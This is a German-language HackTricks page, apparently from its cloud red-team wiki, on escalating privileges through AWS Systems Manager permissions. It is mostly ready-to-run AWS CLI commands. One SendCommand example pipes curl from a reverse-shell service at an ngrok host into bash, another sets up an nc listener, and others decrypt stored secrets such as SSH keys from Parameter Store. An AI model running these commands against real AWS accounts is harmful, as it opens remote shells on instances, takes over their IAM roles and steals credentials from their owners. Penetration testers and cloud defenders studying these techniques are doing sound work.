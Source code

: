 # AWS - SSM Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## SSM

Für weitere Informationen zu SSM siehe:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Ein Angreifer mit der Berechtigung **`ssm:SendCommand`** kann **Befehle in Instanzen ausführen**, die den Amazon SSM-Agenten ausführen, und **die IAM-Rolle** kompromittieren, die darin läuft.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Falls Sie diese Technik verwenden, um Privilegien innerhalb einer bereits kompromittierten EC2-Instanz zu eskalieren, könnten Sie einfach die rev shell lokal erfassen mit:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den EC2 IAM-Rollen, die an laufende Instanzen mit SSM-Agenten angehängt sind.

### `ssm:StartSession`

Ein Angreifer mit der Berechtigung **`ssm:StartSession`** kann **eine SSH-ähnliche Sitzung in Instanzen** starten, die den Amazon SSM-Agenten ausführen, und **die IAM-Rolle** kompromittieren, die darin ausgeführt wird.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Um eine Sitzung zu starten, benötigen Sie das **SessionManagerPlugin** installiert: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den EC2 IAM-Rollen, die an laufende Instanzen mit SSM-Agenten angehängt sind.

#### Privilegieneskalation zu ECS

Wenn **ECS-Aufgaben** mit **`ExecuteCommand` aktiviert** ausgeführt werden, können Benutzer mit ausreichenden Berechtigungen `ecs execute-command` verwenden, um **einen Befehl** innerhalb des Containers auszuführen.\
Laut [**der Dokumentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) geschieht dies durch die Erstellung eines sicheren Kanals zwischen dem Gerät, das Sie verwenden, um den „_exec_“-Befehl zu initiieren, und dem Zielcontainer mit SSM Session Manager. (SSM Session Manager Plugin ist notwendig, damit dies funktioniert)\
Daher werden Benutzer mit `ssm:StartSession` in der Lage sein, **eine Shell innerhalb von ECS-Aufgaben** mit dieser Option aktiviert zu erhalten, indem sie einfach Folgendes ausführen:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den `ECS` IAM-Rollen, die an laufende Aufgaben mit aktiviertem `ExecuteCommand` angehängt sind.

### `ssm:ResumeSession`

Ein Angreifer mit der Berechtigung **`ssm:ResumeSession`** kann eine **SSH-ähnliche Sitzung in Instanzen** neu **starten**, die den Amazon SSM-Agenten mit einem **getrennten** SSM-Sitzungsstatus ausführen und die **IAM-Rolle** kompromittieren, die darin läuft.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den EC2 IAM-Rollen, die an laufende Instanzen mit SSM-Agenten und getrennten Sitzungen angehängt sind.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Ein Angreifer mit den genannten Berechtigungen wird in der Lage sein, die **SSM-Parameter** aufzulisten und **diese im Klartext zu lesen**. In diesen Parametern findet man häufig **sensible Informationen** wie SSH-Schlüssel oder API-Schlüssel.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potenzielle Auswirkungen:** Finden Sie sensible Informationen in den Parametern.

### `ssm:ListCommands`

Ein Angreifer mit dieser Berechtigung kann alle **Befehle** auflisten, die gesendet wurden, und hoffentlich **sensible Informationen** darin finden.
```
aws ssm list-commands
```
**Potenzielle Auswirkungen:** Finden Sie sensible Informationen in den Befehlszeilen.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Ein Angreifer mit diesen Berechtigungen kann alle **Befehle** auflisten, die gesendet wurden, und **die Ausgabe** lesen, in der Hoffnung, **sensible Informationen** darin zu finden.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potenzielle Auswirkungen:** Finden Sie sensible Informationen im Output der Befehlszeilen.

### Codebuild

Sie können SSM auch verwenden, um in ein Codebuild-Projekt einzudringen, das gerade erstellt wird:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

